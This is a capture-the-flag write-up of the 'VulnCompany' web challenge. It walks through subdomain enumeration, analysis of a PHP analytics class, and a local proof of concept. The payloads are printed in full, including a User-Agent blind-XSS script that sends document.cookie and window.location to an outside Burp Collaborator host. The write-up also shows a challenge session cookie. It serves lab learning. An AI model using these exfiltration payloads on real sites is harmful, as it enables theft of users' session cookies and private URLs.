


# VulnCompany

http://www.vulncompany.co.uk - 5 flags to find


Subs first

```
└─$ assetfinder -subs-only vulncompany.co.uk
vulncompany.co.uk
vulncompany.co.uk
vulncompany.co.uk
```

OK nothing there and also nothing with the subdomain wordlist. Time for some content discovery. Only one hit

- _scripts

Which gives me an index page with flag 1 and new directory to check out. Which also leads to another index page :)


VulnAnalyticsClass.php appears blank when loaded but perhaps I might be able to get the source code?

The readme.html is a link to another domain


OK so this is it


So I can immediately see that the code is talking about subdomains so lets quickly check that

```
└─$ assetfinder -subs-only vulnanalytics.co.uk
vulnanalytics.co.uk
hostmaster.vulnanalytics.co.uk
vulnanalytics.co.uk
vulnanalytics.co.uk
```

And running the subdomain wordlist mostly gives back 404 responses with the JSON

```
["Subdomain Invalid"]
```

Also content discovery does not reveal anything interesting. Let's analyse the PHP class VulnAnalytics

```php
private $subdomin,$apikey,$id;

public function __construct(  $subdomain, $id ,$apikey ){
    $this->subdomin = $subdomain;
    $this->id = $id;
    $this->apikey = $apikey;
}
```

OK so an instance of this class is constructed with a subdomain, an id and an apikey

```php
public function getBrowserData(){
    return $this->getData('http://'.$this->subdomin.'.vulnanalytics.co.uk/'.$this->id.'/browser');
}

public function getIPData(){
    return $this->getData('http://'.$this->subdomin.'.vulnanalytics.co.uk/'.$this->id.'/ip');
}

public function getPageData(){
    return $this->getData('http://'.$this->subdomin.'.vulnanalytics.co.uk/'.$this->id.'/page');
}
```

OK so on a configured subdomain there is data of some sort with the id and the paths browser, ip and page. So I'd need to know the subdomain and the id an instance of this was created with in order to get at that data.

And here's the getData method these things are calling

```php
private function getData($url){
    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
        'X-Token: '.$this->apikey
    ));
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $data = json_decode(curl_exec($ch),true);
    return $data;
}
```

OK so this sets an X-Token header using the API key. So in order to get this data I'd also have to know the API key! It decodes the json response in a php var as an associative array, by setting the second parameter of json_decode to true.

```php
public function pageView(){
    $url = 'http://'.$this->subdomin.'.vulnanalytics.co.uk/'.$this->id.'/data';
    $data = array(
        'ip'        =>  $_SERVER["REMOTE_ADDR"],
        'page'      =>  $this->cleanInput($_SERVER["REQUEST_URI"]),
        'browser'   =>  $_SERVER["HTTP_USER_AGENT"]
    );
    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_CUSTOMREQUEST, 'POST' );
    curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($data) );
    curl_setopt($ch, CURLOPT_HTTPHEADER, array('Content-Length: ' . strlen( http_build_query($data) )));
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
        'X-Token: '.$this->apikey
    ));
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $response = curl_exec($ch);
    echo $response;
}
```

OK so this makes some POST request to the data path, I assume this gets called with every page view to update the analytics for the site, again need to know the subdomain, the id and the API key in order to be able to call this. The parameters for the POST are ip, page and browser. The page param is potentially interesting as it calls the cleanInput function.

```php
private function cleanInput( $str ){
    $str = preg_replace('/([^a-z0-9\/-_.])/','',$str);
    return $str;
}
```

So this strips all characters not in the range mentioned, perhaps of some further use....

In fact here's regex101.com's explanation of this regex, better than mine! :D


So the a-z, A-Z ranges are quite self explanatory, but here's some info on the index 47-95 range


Here's an example of the replace in action

```
└─$ php -a
Interactive shell

php > $s = "h,e,l,lo w+o+r+l+d";
php > echo preg_replace('/([^a-z0-9\/-_.])/','',$s);
helloworld
```

And the input being passed to this function is ```$_SERVER["REQUEST_URI"]```, so for example with a URL such as http://www.vulncompany.co.uk/_scripts/vulnanalytics/VulnAnalyticsClass.php the value of this would be /_scripts/vulnanalytics/VulnAnalyticsClass.php

Right I think I may need VulnAnalyticsClass.php, the missing info must be in there! It could however just be a local copy of the class detailed on the vulnanalytics site.

I'll assume that the vulncompany site is configured with this module, and every page view triggers the POST request mentioned in the function.

So does the key lie in creating some payload via the request uri of the vulncompany domain? If so how?!

I think I need to construct a local PoC so I can visualise this and observe the requests it makes to vulnanalytics.

OK so first of all, if I extract and simplify the functions in the class into my own php file. Note how I've changed the URL to a Burp collab server.

```php
<html>
    <head>
        <title>Page view</title>
    </head>
    <body>
        <?php 
        function cleanInput( $str ){
            $str = preg_replace('/([^a-z0-9\/-_.])/','',$str);
            return $str;
        }

        function pageView() {
            $url = "http://u83gk9c8tskhap1fwwrjr60l8ce22r.oastify.com/data";
            $data = array(
                'ip'        =>  $_SERVER["REMOTE_ADDR"],
                'page'      =>  cleanInput($_SERVER["REQUEST_URI"]),
                'browser'   =>  $_SERVER["HTTP_USER_AGENT"]
            );
            $ch = curl_init($url);
            curl_setopt($ch, CURLOPT_CUSTOMREQUEST, 'POST' );
            curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($data) );
            curl_setopt($ch, CURLOPT_HTTPHEADER, array('Content-Length: ' . strlen( http_build_query($data) )));
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
            curl_exec($ch);
        }
        ?>
        <?php pageView(); ?>
        <?php echo '<p>REQUEST_URI: '.cleanInput($_SERVER["REQUEST_URI"]);?>
    </body>
</html>
```

Then start a local php dev server

```
└─$ php -S 127.0.0.1:8000
[Thu Jul 21 03:42:19 2022] PHP 8.1.5 Development Server (http://127.0.0.1:8000) started
[Thu Jul 21 03:42:28 2022] 127.0.0.1:45842 Accepted
[Thu Jul 21 03:42:28 2022] 127.0.0.1:45842 [200]: GET /
[Thu Jul 21 03:42:28 2022] 127.0.0.1:45842 Closing
```

Load up the index in the browser



And I can see the actual request in Burp collab client

```
POST /data HTTP/1.1
Host: u83gk9c8tskhap1fwwrjr60l8ce22r.oastify.com
Accept: */*
Content-Length: 114
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1&page=%2F&browser=Mozilla%2F5.0+%28X11%3B+Linux+x86_64%3B+rv%3A91.0%29+Gecko%2F20100101+Firefox%2F91.0
```

Now if I try a path such as /?a=b&b=c, then request URI is transformed to /?a=bb=c and the POST request is

```
POST /data HTTP/1.1
Host: u83gk9c8tskhap1fwwrjr60l8ce22r.oastify.com
Accept: */*
Content-Length: 127
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1&page=%2F%3Fa%3Dbb%3Dc&browser=Mozilla%2F5.0+%28X11%3B+Linux+x86_64%3B+rv%3A91.0%29+Gecko%2F20100101+Firefox%2F91.0
```

OK quick test by removing the call cleanInput and the same request above results in a request URI of /?a=b&b=c. So does this mean now that a new request body parameter b=c is a part of the POST request?

```
POST /data HTTP/1.1
Host: u83gk9c8tskhap1fwwrjr60l8ce22r.oastify.com
Accept: */*
Content-Length: 130
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1&page=%2F%3Fa%3Db%26b%3Dc&browser=Mozilla%2F5.0+%28X11%3B+Linux+x86_64%3B+rv%3A91.0%29+Gecko%2F20100101+Firefox%2F91.0
```

No :(. BUT I think this must be the reason for the call to cleanInput as user input can affect the POST request to the vulnanalytics server.

One thing to note is I can also manipulate the value of the browser POST parameter by changing my User-Agent in burp, for example

The request

```
GET /?a=b&b=c HTTP/1.1
Host: localhost:8000
User-Agent: hello&
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Shows up as this POST request in collaborator

```
POST /data HTTP/1.1
Host: u83gk9c8tskhap1fwwrjr60l8ce22r.oastify.com
Accept: */*
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1&page=%2F%3Fa%3Dbb%3Dc&browser=hello%26
```

So browser isn't subject to sanitisation by a call to cleanInput but it is still subject to a call of http_build_query which URL encodes the request body.....

http_build_query seems to be the reason I can't just inject a parameter of my own choosing :D

```
└─$ php -a               
Interactive shell

php > $param = array('page' => '?a=b&b=c');
php > echo http_build_query($param);
page=%3Fa%3Db%26b%3Dc
```

I'm going to focus on the browser parameter as it doesn't go through the same sanitisation.

OK so could the data that's being posted be viewed by someone? Perhaps some HTML injection or XSS on this param will reveal something.

```
GET / HTTP/1.1
Host: www.vulncompany.co.uk
User-Agent: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ctfchallenge=PREMIUMeyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTBkalJsY1hsa2VDSXNJbkJ5WlcxcGRXMGlPblJ5ZFdWOSIsInZlcmlmeSI6IjdkZWJlOTAxMjBiOTU5ZGI2MTAxZjI3MTMxZWNiOGExIn0=
Upgrade-Insecure-Requests: 1
```

And I get a response back in the collab client :)

```
The Collaborator server received an HTTP request.  The request was received from IP address 178.128.46.44 at 2022-Jul-22 09:37:13 UTC.
```

```
GET / HTTP/1.1
Host: n9xg1pbfgf5apziwg66b28moofu5iu.oastify.com
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://vulncompany.co.uk/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

OK lets now try some XSS on the same to see if I can grab something useful like a cookie maybe

```
GET / HTTP/1.1
Host: www.vulncompany.co.uk
User-Agent: <script>var i=new Image();i.src = 'http://n9xg1pbfgf5apziwg66b28moofu5iu.oastify.com/?cookie=' +document.cookie;document.getElementsByTagName('body')[0].appendChild(i);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ctfchallenge=PREMIUMeyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTBkalJsY1hsa2VDSXNJbkJ5WlcxcGRXMGlPblJ5ZFdWOSIsInZlcmlmeSI6IjdkZWJlOTAxMjBiOTU5ZGI2MTAxZjI3MTMxZWNiOGExIn0=
Upgrade-Insecure-Requests: 1
```

So this works, but brings back nothing useful

```
GET /?cookie=ctfchallenge= HTTP/1.1
Host: n9xg1pbfgf5apziwg66b28moofu5iu.oastify.com
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://vulncompany.co.uk/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Maybe the window location? Although this may be the same as the Referer.

```
GET / HTTP/1.1
Host: www.vulncompany.co.uk
User-Agent: <script>var i=new Image();i.src = 'http://n9xg1pbfgf5apziwg66b28moofu5iu.oastify.com/?location=' +window.location;document.getElementsByTagName('body')[0].appendChild(i);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ctfchallenge=PREMIUMeyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTBkalJsY1hsa2VDSXNJbkJ5WlcxcGRXMGlPblJ5ZFdWOSIsInZlcmlmeSI6IjdkZWJlOTAxMjBiOTU5ZGI2MTAxZjI3MTMxZWNiOGExIn0=
Upgrade-Insecure-Requests: 1
```

Ahhh not it's not :D!

```
GET /?location=http://vulncompany.co.uk/t0p_s3cr3t_d1rect0ry_2020/?id=222 HTTP/1.1
Host: n9xg1pbfgf5apziwg66b28moofu5iu.oastify.com
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://vulncompany.co.uk/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Finally flag 2!

